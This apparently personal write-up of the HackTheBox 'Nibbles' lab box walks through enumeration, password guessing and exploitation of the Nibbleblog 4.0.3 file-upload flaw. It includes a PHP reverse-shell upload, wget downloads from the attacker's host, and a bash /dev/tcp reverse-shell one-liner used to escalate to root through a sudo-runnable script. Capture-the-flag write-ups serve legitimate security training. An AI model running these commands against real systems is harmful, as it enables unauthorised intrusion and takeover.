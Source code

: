 ```yaml
---
layout: page
title: HackTheBox Nibbles Writeup
---
```


Nibble is a box that is running a `nibbleblog` site which has a known exploit with an associated metasploit module. Though for the exploit module to work, credentials are needed. By enumerating the web directories on the system, a `users.xml` file was found that showed in plaintext an administrator account. From there, I was able to guess a relatively easy password to gain initial access onto the system. PrivEsc involved finding binaries that the user we logged onto as can run without a password.

### Enumeration

Starting off with a basic enumeration scan: ```nmap -sC -sV -oA nibbles 10.10.10.75```

Here's what it outputs:

![image](https://user-images.githubusercontent.com/41026969/73245301-ecec9f80-4179-11ea-96ec-ea6e22e3fd65.png)

So we see there's a ssh server and a web server being hosted on this machine. Since we don't have any creds for ssh yet, I first check out the webpage:

![image](https://user-images.githubusercontent.com/41026969/73312921-db49dd00-41f7-11ea-8c99-d5d43e258f78.png)

Checking the source (on FireFox ESR, ```CTRL``` + ```u```) we see there's a hidden directory:

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Going to ```http://10.10.10.75/nibbleblog/``` to check it out shows some kind of portal:

![image](https://user-images.githubusercontent.com/41026969/73313001-13e9b680-41f8-11ea-81c8-f1be6adba61c.png)

I initially did a gobuster scan on the main homepage ```http://10.10.10.75``` and it didn't find anything. Though trying a gobuster scan on ```http://10.10.10.75/nibbleblog/``` (using the ```directory-list-2.3-medium```) outputs:

![image](https://user-images.githubusercontent.com/41026969/73313521-7c856300-41f9-11ea-89db-e960aef7edfc.png)

Looking at the ```README``` directory:

![image](https://user-images.githubusercontent.com/41026969/73313695-e7cf3500-41f9-11ea-86f7-9aa5ec46ecce.png)

We see that the web server has ```Nibbleblog version 4.0.3 codename Coffee``` installed.

##### Finding an exploit for later use

Looking up vulnerabilities for this version of Nibbleblog, there are multiple articles about file uploading:

![image](https://user-images.githubusercontent.com/41026969/73314010-b99e2500-41fa-11ea-87f6-7ff607809d93.png)

We see there's a [Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload) page about it. In this article, it describes the vulnerability. ```Nibbleblog contains a flaw that allows an authenticated remote attacker to execute arbitrary PHP code. This module was tested on version 4.0.3.``` Though a thing to note about this is that we need to be on an authenticated account. So we need to keep enumerating those web directories for some credentials...

Reading more into the vulnerability, a list of steps can be found on [this webpage](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html). Where we basically have to upload an image containing php code and running it by visiting a specific location/URL which will then execute the code. 

Looking around I eventually end up in the ```/content/private/users.xml``` page. Checking out the page shows there's a single user ```admin```. It is also worth noting that there seems to be a firewall/blacklist system in place to guard against bruteforcers. Here's a screenshot of it below:

![image](https://user-images.githubusercontent.com/41026969/73314486-020a1280-41fc-11ea-871e-3e6c62829e81.png)

Doing further enumeration checks by this time adding ```php``` to list of file extensions to find any extra webpages/files:

```
noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ gobuster dir -u 10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 200 -o gobuster_results.txt
```

Outputs the following:

![image](https://user-images.githubusercontent.com/41026969/74098356-3b3c5f80-4ae5-11ea-85ae-68c200a0e0c8.png)

Visiting each of the pages, eventually coming across ```/admin.php``` we see there's an admin login page that was previously not seen:

![image](https://user-images.githubusercontent.com/41026969/74098395-b6057a80-4ae5-11ea-81b3-4772b7a604e7.png)

Knowing before, we know of at least one user: ```admin```. Doing some careful guess and checking I eventually try ```nibbles``` as the password at it worked, revealing this home screen:

![image](https://user-images.githubusercontent.com/41026969/74098423-011f8d80-4ae6-11ea-942f-610601078c52.png)

### Exploitation

Going back to [this source](page explaining the image upload vulnerability from cve details webpage (above)](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) that lists steps on executing the exploit shows we need to upload some php code. Below are the steps listed on the website above:

![image](https://user-images.githubusercontent.com/41026969/74098470-77bc8b00-4ae6-11ea-91f5-aabd267d6885.png)

The first step is done, we have gained admin credentials into the portal. The second step is activating the my image plugin. From the main site, going to ```Plugins``` shows that ```My image``` is already installed. Clicking the "Configure" button under it brings up a menu we can upload a picture to. The third step is uploading a PHP shell...

I use one of the default kali PHP webshells ([read more on kali webshells here](https://tools.kali.org/maintaining-access/webshells)): 

```
noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

##### Explanation of above: ```cp``` is copy, ```/usr/share...``` is the file I'll be copying, and ```.``` is the place I'll be copying to, in Linux, ```.``` represents the current directory. 

Before I upload the file, I need to configure it by putting my IP and port number that I'll be listening to:

![image](https://user-images.githubusercontent.com/41026969/74098604-33ca8580-4ae8-11ea-9775-e7316edf4d33.png)

Now to upload this php file, I go back to the website and in the configure screen of the "My image" plugin; there's a ```Browse``` button to upload a file which I upload the php file to.

The next step according to the website is to go to ```http://localhost/nibbleblog/content/private/plugins/my_image/image.php``` page (changing the localhost address to the IP address). But before I navigate to that directory, I must first set up a netcat listener by doing ```noodle@kali:~/Desktop/Hacky Sack/htb-nibbles$ nc -nvlp 4444```.

Now visiting the address ```10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php```:

![image](https://user-images.githubusercontent.com/41026969/74098639-8310b600-4ae8-11ea-8154-a7b92ad6824f.png)

We get a shell!

### Post Exploitation - More Enumeration & Privesc

Looking aroud the machine, the user flag is found at ```/home/nibbler/user.txt```.

To do further enumeration, I use [LinEnum](https://github.com/rebootuser/LinEnum) which will gather a bunch of information about the box. To get it on the remote box, I first copy ```LinEnum.sh``` into my current working directory, then I do ```python -m SimpleHTTPServer```. Then on the remote box, I do ```wget 10.10.14.3:8000/LinEnum.sh``` to download the file. Then to run it first give it permissions ```chmod +x LinEnum.sh``` then ```./LinEnum.sh```.

Running it we see something interesting:

![image](https://user-images.githubusercontent.com/41026969/74098786-02eb5000-4aea-11ea-9dda-63df48328428.png)

We can use the sudo command to run a ```monitor.sh``` file inside the directory ```/home/nibbler/personal/stuff``` meaning we have to do ```unzip personal.zip``` to unzip the file. Going inside the personal directory there is a ```stuff``` directory and going inside that directory there is the ```monitor.sh``` file. 

To edit the file (or to change it altogether) on the target box, I did ```rm monitor.sh``` to remove the original file as we'll be uploading our own sh file. Then on the host machine, I create an sh file (also named ```monitor.sh```) that will contain a bash command to get a reverse shell. I get a bash one-liner command from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and on the top of the file I put ```#!/bin/bash``` to show we're executing bash commands. So this is how the file looks like:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.3/4445 0>&1
```

##### Note: I changed the IP/Port address to my own IP and I'll be listening on port 4445

To get it on the target host, I do the same thing from earlier: on my host machine I use ```python -m SimpleHTTPServer``` to make the files available and then on the target host machine I use ```wget 10.10.14.3:8000/monitor.sh``` to get the new ```monitor.sh``` file I created. Note for this machine you need to download the ```monitor.sh``` file inside the correct directories. Then I give it permission to execute: ```chmod +x monitor.sh```

Creating a listener on port 4445 by doing ```ncat -nvlp 4445``` and then running the new ```monitor.sh``` file by doing ```./monitor.sh```... I get a new shell!

![image](https://user-images.githubusercontent.com/41026969/74099001-a76e9180-4aec-11ea-9115-98a4f838a4e7.png)

Doing an ```id``` check shows we have uid/gid of 0 which means we are root.

Looking around, the root flag is found in ```/root/root.txt```. 

### Flag Locations
user: ```/home/nibbler/user.txt```

root: ```/root/root.txt```

### Sources
- [cve details webpage on nibbleblog vulnerability](https://www.cvedetails.com/cve/CVE-2015-6967/)
- [page explaining the image upload vulnerability from cve details webpage (above)](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)
- [Kali web shells](https://tools.kali.org/maintaining-access/webshells)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [PentestMonkey reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [IppSec video writeup](https://www.youtube.com/watch?v=s_0GcRGv6Ds)

### Post-Machine Analysis/Reflection
- Learned that when using gobuster, add in the php extension to find additional webpages. On dirbuster, php is already the default file extension.
- Credentials aren't always stored in plaintext somewhere on a server, some guess/check might be needed.
- Learned that there's a difference between bash and sh [from reading this page](https://askubuntu.com/questions/141928/what-is-the-difference-between-bin-sh-and-bin-bash). There's also difference between ```#!/bin/bash``` and ```#!/bin/sh``` because initially running the command without the ```#!/bin/bash``` at the top did not work (but afterwards, adding it solved the issue).
- Sometimes, we have to make sure ```.sh``` files are executable (```chmod +x file_name.sh```).
- this python one liner can make a reverse shell look better: ```python -c 'import pty; pty.spawn("/bin/bash")'```.